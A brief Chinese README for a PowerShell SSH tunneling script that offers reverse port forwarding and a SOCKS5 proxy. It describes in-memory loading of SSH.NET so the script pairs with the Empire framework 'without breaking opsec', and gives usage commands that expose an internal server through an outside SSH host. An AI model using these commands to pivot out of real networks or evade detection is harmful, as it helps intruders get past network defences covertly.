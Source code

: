 # 记录一些感兴趣的脚本



ssh-tools.ps1

目前的功能：

- 反向端口转发

- 在脚本中包含ssh.net dll，在执行时不会写入磁盘，只需要此ps1文件。可以与Empire一起使用而不会破坏opsec

  用法：

> import-module SSH-Tools.ps1 Start-ReversePortForward -sshhost ssh.myhost.com -username USER1 -password PASS -RemotePort 23000 -Desthost someinternalserver.local -destport 80

或者在端口23000上启动tunnel + socks5代理

> start-socksproxy -sshhost ssh.myhost.com -username USER -password PASS -RemotePort 23000 -LocalPort 10000

当你完成

> 停止 - PortForwardJobs

